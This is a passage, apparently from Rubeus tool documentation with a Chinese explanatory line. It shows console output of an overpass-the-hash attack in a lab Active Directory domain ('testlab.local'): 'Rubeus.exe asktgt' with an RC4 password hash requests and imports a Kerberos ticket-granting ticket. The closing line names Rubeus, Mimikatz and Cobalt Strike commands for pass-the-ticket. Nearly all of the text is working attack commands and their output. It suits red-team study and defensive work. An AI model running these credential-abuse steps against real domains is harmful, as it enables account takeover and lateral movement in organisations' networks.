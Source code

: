 ```
[*] Received 1537 bytes
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
    ...(snip)...

[*] Action: Import Ticket
[+] Ticket successfully imported!


C:Rubeus&gt;Rubeus.exe asktgt /user:harmj0y /domain:testlab.local /rc4:2b576acbe6bcfda7294d6bd18041b8fe /createnetonly:C:WindowsSystem32cmd.exe

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0


[*] Action: Create Process (/netonly)

[*] Showing process : False
[+] Process         : 'C:WindowsSystem32cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4988
[+] LUID            : 6241024

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
[*] Target LUID : 6241024
[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building AS-REQ (w/ preauth) for: 'testlab.localharmj0y'
[*] Connecting to 192.168.52.100:88
[*] Sent 232 bytes
[*] Received 1405 bytes
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFFjCCBRKgAwIB...(snip)...

[*] Action: Import Ticket
[*] Target LUID: 0x5f3b00
[+] Ticket successfully imported!
```

如果未指定 /ptt 参数来将票据应用于当前登陆会话，则可以使用Rubeus的 **ptt** 命令，或者 Mimikatz 的 **kerberos::ptt** 功能，或者 Cobalt Strike 的 **kerbeos_ticket_use** 稍后再应用票据。
